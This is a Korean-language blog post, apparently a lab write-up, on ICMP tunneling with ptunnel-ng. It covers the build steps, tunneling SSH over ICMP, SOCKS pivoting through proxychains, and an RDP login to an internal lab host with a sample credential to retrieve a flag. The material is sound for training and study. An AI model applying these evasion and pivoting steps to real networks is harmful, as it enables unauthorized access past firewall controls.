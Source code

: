 ```yaml
---
title: "ICMP Tunneling with ptunnel-ng"
date: 2025-10-03
layout: single
excerpt: "**ICMP tunneling**은 ICMP(예: ping)의 echo request/response 메시지에 데이터를 캡슐화하여 양방향 통신 채널을 만드는 기법이다. 내부 네트워크에서 외부로의 ping(icmp echo)이 허용되는 환경에서는 ICMP를 이용한 터널링으로 제한된 통로를 확보할 수 있다."
author_profile: true
toc: true
toc_label: "ICMP Tunneling"
toc_icon: "network-wired"
toc_sticky: true
tags: [networking, tunneling, pivoting, icmp, ptunnel]
categories: [network]
header:
  teaser: /assets/network-screenshots/ptunnel/ptunnel.png
  teaser_home_page: true
---
```


**ICMP tunneling**은 ICMP(예: ping)의 echo request/response 메시지에 데이터를 캡슐화하여 양방향 통신 채널을 만드는 기법이다.  

내부 네트워크에서 외부로의 ping(icmp echo)이 허용되는 환경에서는 ICMP를 이용한 터널링으로 제한된 통로를 확보할 수 있다.  

> 내부 호스트 → (ICMP) → 외부 서버 (ptunnel-ng)  
> ICMP 패킷의 페이로드에 터널화한 데이터를 담아 주고받는 방식으로 동작한다.

---

# 설치 및 빌드

먼저 `ptunnel-ng` 저장소를 클론한다.

```bash
$ git clone https://github.com/utoni/ptunnel-ng.git

Cloning into 'ptunnel-ng'...
remote: Enumerating objects: 1413, done.
remote: Counting objects: 100% (319/319), done.
remote: Compressing objects: 100% (137/137), done.
remote: Total 1413 (delta 186), reused 296 (delta 174), pack-reused 1094 (from 1)
Receiving objects: 100% (1413/1413), 710.67 KiB | 15.45 MiB/s, done.
Resolving deltas: 100% (908/908), done.
```

클론이 완료되면 `ptunnel-ng` 디렉토리로 이동 후 `autogen.sh` 를 사용하여 `Ptunnel-ng` 를 빌드한다.

```bash
$ sudo ./autogen.sh 
```

## 1. Autotools 기반 소스 빌드

빌드에 필요한 패키지들을 설치한다.

```bash
$ sudo apt update

$ sudo apt install -y build-essential automake autoconf libpcap-dev pkg-config libssl-dev
```

일반 사용자로 `autogen.sh`를 실행하여 `configure` 스크립트를 생성하고, `configure` → `make` → `sudo make` `install` 순으로 진행한다.

```bash
$ ./autogen.sh

$ ./configure

$ make -j$(nproc)

$ sudo make install
```

> `./autogen.sh`, `./configure`, `make` 단계는 일반 사용자로 실행해야 한다.
> (`autogen.sh`를 `sudo`로 실행하면 생성된 파일이 root 소유가 되어 권한 문제가 발생할 수 있음.)

## 2. 정적 바이너리 구축 빌드

표준 빌드에서 호환성 문제가 발생하거나 타깃 환경과 라이브러리 불일치가 예상되면 정적 빌드를 시도할 수 있다.

```bash
$ sudo apt install automake autoconf -y

$ cd ptunnel-ng/

$ sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j${BUILDJOBS:-4} all/' autogen.sh

$ ./autogen.sh
```

---

# 실습

## SCP 파일 전송

클론한 `ptunnel-ng` 디렉토리를 문제에서 제공한 SSH 계정(`ubuntu`)을 통해 원격 호스트로 전송한다.

```bash
$ scp -r ptunnel-ng ubuntu@10.129.184.183:/home/ubuntu
```

전송이 완료되면, 동일한 SSH 계정(`ubuntu`)으로 원격 호스트에 접속한다.

```bash
$ ssh ubuntu@10.129.184.183
```

## ptunnel-ng 서버 시작

원격 호스트에서 ICMP 터널링을 위한 `ptunnel-ng` 서버를 실행하였다.

`-r 10.129.184.183`은 원격 서버의 IP를 지정하고, `-R 22`는 원격 서버의 SSH 포트(22)를 로컬로 포워딩해 ICMP 터널을 통해 원격 SSH 접속을 중계한다.

![Netsh Port Forward Diagram](/assets/network-screenshots/ptunnel/server-start.png)

## ptunnel-ng 서버에 연결

나의 로컬 호스트로 돌아가 `ptunnel-ng` 서버에 연결하는 명령어를 입력하였다.

ICMP 터널을 통해 원격 서버(`10.129.184.183`)의 **SSH 포트(22)를 로컬 PORT 2222로 포워딩**한다.

```bash
$ sudo ./ptunnel-ng -p10.129.184.183 -l2222 -r10.129.184.183 -R22
```

ICMP 터널이 성공적으로 설정되면 `PORT ​​2222`를 통해 SSH를 사용하여 대상에 연결을 시도할 수 있다.

![Netsh Port Forward Diagram](/assets/network-screenshots/ptunnel/ssh-connect.png)

## SSH를 통한 동적 포트 포워딩

ICMP 터널 위에서 `proxychains` 를 이용하여 동적 포트 포워딩을 적용하면 다음과 같이 접속할 수 있다.

```bash
$ ssh -D 9050 -p 2222 -l ubuntu 127.0.0.1
```

## proxychains.conf 설정

연결 성공 후, 로컬의 `/etc/proxychains.conf`(`/etc/proxychains4.conf`)를 편집하여 SOCKS 리스너를 `127.0.0.1:9050`으로 변경했다.

![Netsh Port Forward Diagram](/assets/network-screenshots/ptunnel/proxychains.png)

## 내부망 RDP 연결

SOCKS 리스너가 정상 동작하는지 `nc` 명령어로 확인했다.

```bash
$ proxychains nc -vz 172.16.5.19 3389

[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.5.19:3389  ...  OK
172.16.5.19 [172.16.5.19] 3389 (ms-wbt-server) open : Operation now in progress
```

연결 시도가 성공하여, SOCKS 리스너를 통한 내부망 RDP 접근이 가능함을 확인하였다.

이제 `proxychains`를 적용하여 문제에서 제공한 RDP IP `172.16.5.19`에 연결을 시도하였다.

```bash
$ proxychains xfreerdp3 /v:172.16.5.19 /u:victor /p:pass@123
```

정상적으로 연결에 성공하였다.

![Netsh Port Forward Diagram](/assets/network-screenshots/ptunnel/rdp-connect.png)

## Flag 획득

문제에서 제공한 Flag 파일 경로 `C:\Users\victor\Documents\flag.txt`를 읽어 플래그를 획득하였다.

![Netsh Port Forward Diagram](/assets/network-screenshots/ptunnel/flag.png)

이로써 **ptunnel** 실습을 마무리하였다.